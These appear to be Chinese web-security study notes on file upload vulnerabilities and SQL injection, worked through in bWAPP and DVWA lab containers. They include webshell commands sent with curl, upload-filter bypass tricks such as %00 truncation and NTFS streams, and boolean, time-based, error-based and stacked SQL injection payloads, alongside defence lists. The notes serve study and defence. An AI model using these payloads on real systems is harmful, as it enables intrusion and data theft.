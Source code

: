 # 服务端安全

## 文件上传漏洞

获取 webshell

```sh
# docker images: registry.cn-shanghai.aliyuncs.com/yhskc/bwapp
$ docker run -d -p 0.0.0.0:80:80 registry.cn-shanghai.aliyuncs.com/yhskc/bwapp
$ docker container list -a
CONTAINER ID        IMAGE                                           COMMAND                  CREATED             STATUS                      PORTS                          NAMES
50b30e9f09b8        registry.cn-shanghai.aliyuncs.com/yhskc/bwapp   "/run.sh"                2 minutes ago       Up 2 minutes                0.0.0.0:80->80/tcp, 3306/tcp   affectionate_wing
# Step1: 打开 127.0.0.1/install.php 安装 bWAPP
# Step2: 注册用户 alwynzhou / sfgU4qcj8C9V5PR / tokentest
# Step3: 选择 Other Bugs -> Unrestricted File Upload，上传攻击性文件 shell.php

# 获取当前用户名
$ curl -d "hacker=echo get_current_user();" http://127.0.0.1/images/shell.php
www-data%
# 获取当前执行路径
$ curl -d "hacker=echo getcwd();" http://127.0.0.1/images/shell.php
/app/images%
```

```sh
# 中级难度 shell.php3
root@50b30e9f09b8:/# netstat -antp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      436/apache2
root@50b30e9f09b8:/# cd /etc/apache2/
root@50b30e9f09b8:/etc/apache2# vim apache2.conf
root@50b30e9f09b8:/etc/apache2# cd mods-enabled/
root@50b30e9f09b8:/etc/apache2/mods-enabled# cat php5.conf
<FilesMatch ".+\.ph(p[345]?|t|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

- `.htaccess` 绕过
  - 分布式配置文件
- 大小写绕过 etc
- Windows 文件流特性饶拓
  - echo 111 > test.txt:111.txt (NTFS)
- `%00`截断绕过
  - 路径截断 save_path=../upload/a.php%00.jpg

**绕过内容检测**

- 聚合图片文件头和代码文本文件

**漏洞链**

- 远程/本地文件包含 （不可执行的文件变成可执行的文件）

**测试方式**

- fuzz testing 模糊测试
- penetration testing 渗透测试

**防御措施**

1. 文件类型检测，白名单>黑名单
2. 使用安全的函数进行编程
3. 熟悉业务部署环境 OS、Web Server

## SQL 注入

**防御**

1. 减少错误信息反馈
2. 对输入符号进行转义（黑名单）
3. 对输入特殊词组进行过滤（黑名单）

- and or union select 空格过滤

**SQL 注入 5 种类型**

1. 布尔型注入

```sh
 http://test.com/view?id=1 and substring(version(), 1, 1)=5
 如果服务端MySQL版本是5.X的话，那么页面返回的内容就会跟正常请求一样
```

2. 可联合查询注入

- 依赖报错回显

3. 基于时间延迟注入 Time-based

```sh
select * from user where id = '4' and sleep(3)
# 感知时间变化
# substr(a, b, c)
# count()
# ascii()
# length()
# left(a, b)
# sleep(n)
# 利用and短路的特性
```

4. 报错型注入 Err-based

- 原理：很多函数会导致 MySQL 报错并显示出数据

  - rand()
  - floor()
  - extractvalue() 32bit -> MID()截取多段
  - updatexml()
  - exp()
  - `group by`、`duplicate entry`

```sh
# 找到dvwa的数据表。。。
1' and extractvalue(1, concat(0x7e, (select table_name from information_schema.tables where table_schema="dvwa" limit 0, 1))) --'
```

5. 可多语句查询注入 Stacked-queries

```sh
http://test.com/view?id=1; update t set name = 'a' where id = 1
# 能执行多条查询语句，非常危险，因为意味着能够对数据库直接进行更新操作
```
